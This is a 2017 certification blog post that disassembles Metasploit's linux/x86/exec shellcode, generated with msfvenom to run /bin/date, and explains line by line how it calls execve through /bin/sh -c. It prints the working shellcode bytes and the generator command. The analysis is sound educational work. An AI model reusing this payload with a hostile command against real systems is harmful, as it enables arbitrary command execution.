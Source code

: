 ```yaml
---
layout: post
title: "Analyzing Metasploit linux/x86/exec module using Ndisasm"
date: 2017-05-06 12:00:00
share: true
comments: true
tags: [Exploit Development, Shellcoding, SLAE, OSCE Prep]
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 5.3_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---  
  
In the third and final part of assignment 5 in SLAE, I'll be analyzing the `linux/x86/exec` module using Ndisasm.  
  
Ndisasm comes with Nasm assembler, unlike GDB and Libemu it doesn't execute any code, just converts shellcode to the corresponding instructions, so we'll be analyzing the instructions by hand.  
  

## 1\. Setting payload parameters

```console
root@kali:~# msfvenom -p linux/x86/exec --payload-options  
Options for payload/linux/x86/exec:  
  
  
       Name: Linux Execute Command  
     Module: payload/linux/x86/exec  
   Platform: Linux  
       Arch: x86  
Needs Admin: No  
 Total size: 36  
       Rank: Normal  
  
Provided by:  
    vlad902 <vlad902@gmail.com>  
  
Basic options:  
Name  Current Setting  Required  Description  
----  ---------------  --------  -----------  
CMD                    yes       The command string to execute  
  
Description:  
  Execute an arbitrary command  
```    

  
Payload requires a single command, so let's use something simple like `/bin/date`.  

```console
root@kali:~# msfvenom -p linux/x86/exec CMD=/bin/date -f c  
No platform was selected, choosing Msf::Module::Platform::Linux from the payload  
No Arch selected, selecting Arch: x86 from the payload  
No encoder or badchars specified, outputting raw payload  
Payload size: 45 bytes  
Final size of c file: 213 bytes  
unsigned char buf[] =   
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"  
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0a\x00\x00\x00\x2f"  
"\x62\x69\x6e\x2f\x64\x61\x74\x65\x00\x57\x53\x89\xe1\xcd\x80";  
```

---


## 2\. Analyzing payload with Ndisasm
```console
root@kali:~# echo -ne "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0a\x00\x00\x00\x2f\x62\x69\x6e\x2f\x64\x61\x74\x65\x00\x57\x53\x89\xe1\xcd\x80" | ndisasm -u -  
```

```nasm 
00000000  6A0B              push byte +0xb  
00000002  58                pop eax  
00000003  99                cdq  
00000004  52                push edx  
00000005  66682D63          push word 0x632d  
00000009  89E7              mov edi,esp  
0000000B  682F736800        push dword 0x68732f  
00000010  682F62696E        push dword 0x6e69622f  
00000015  89E3              mov ebx,esp  
00000017  52                push edx  
00000018  E80A000000        call dword 0x27  
0000001D  2F                das  
0000001E  62696E            bound ebp,[ecx+0x6e]  
00000021  2F                das  
00000022  6461              fs popad  
00000024  7465              jz 0x8b  
00000026  005753            add [edi+0x53],dl  
00000029  89E1              mov ecx,esp  
0000002B  CD80              int 0x80  
```

Okay let's go through every few commands and get an idea what's going on.  

```nasm
push byte +0xb  
pop eax                 ; EAX = 0xb  
cdq                     ; Extend EAX -> EDX = 0x0  
push edx                ; Push zero byte  
```

  
Nothing special here so far.  
  
```nasm
push word 0x632d        ; Translates to "-c"  
mov edi,esp             ; Make EDI point to top of stack, which contains "-c" terminated with a null character  
```  

This part is constructing the command to be executed, `-c` will execute the command.  

```nasm
push dword 0x68732f     ; PUSH "hs/"  
push dword 0x6e69622f   ; PUSH "nib/"  
mov ebx,esp             ; Make EBX point to top of stack "/bin/sh -c"  
push edx                ; Push another NULL byte  
```    

  
Next part is interesting, code tells us to jump to instruction 27, but there isn't one! Reason is that there is a string starting at 1D till 27.  
  
```console
root@kali:~# echo -ne "\x2f\x62\x69\x6e\x2f\x64\x61\x74\x65\x00"  
/bin/date  
```

Remaining instructions (after 27) are interpreted incorrectly, so let's pipe them again to ndisasm and come up with the correct instructions.

```
root@kali:~# echo -ne "\x57\x53\x89\xe1\xcd\x80" | ndisasm -u -  
00000000  57                push edi  
00000001  53                push ebx  
00000002  89E1              mov ecx,esp  
00000004  CD80              int 0x80  
```    
  
Awesome, this makes more sense now. Let's rewrite the assembly code in a more understandable structure.  

```nasm   
00000000    push byte +0xb  
00000002    pop eax                 ; EAX = 0xb  
00000003    cdq                     ; Extend EAX -> EDX = 0x0  
00000004    push edx                ; Push zero byte  
00000005    push word 0x632d        ; Translates to "-c"  
00000009    mov edi,esp             ; Make EDI point to top of stack, which contains "-c" terminated with a null character  
0000000B    push dword 0x68732f     ; PUSH "hs/"  
00000010    push dword 0x6e69622f   ; PUSH "nib/"  
00000015    mov ebx,esp             ; Make EBX point to top of stack "/bin/sh"  
00000017    push edx                ; Push another NULL byte  
00000018    call dword 0x27         ; Address of "/bin/date" is pushed onto stack through "call"  
0000001D    "/bin/date"             ; Not executed  
00000027    push edi                ; Push pointer to "-c"  
00000027    push ebx                ; Push pointer to "/bin/sh"  
00000029    mov ecx,esp             ; ECX point to top of stack  
                                    ; This is the "meat" of the shellcode, ECX points to [addr1][addr2][addr3][null]  
                                    ; addr1 points to /bin/sh (0B, 10 and 15)  
                                    ; addr2 points to -c (05 and 09)  
                                    ; addr3 points to "/bin/date" (18 and 1D)  
  
                                    ; NULL indicates end of argv[]  
0000002B    int 0x80                ; EAX = 0xb, which is syscall for execve()  
                                    ; EBX points to argv[0]  
                                    ; ECX points to &argv[0]  
```

### TL;DR

  
1\. `EAX` is set to 0xb, which is the syscall number for `execve()`  
2\. `EBX` points to `/bin/sh` 
3\. `ECX` points to `argv[]` which is `{ "/bin/sh", "-c", "/bin/date" }`
  
That's it!  
  
\- Abatchy

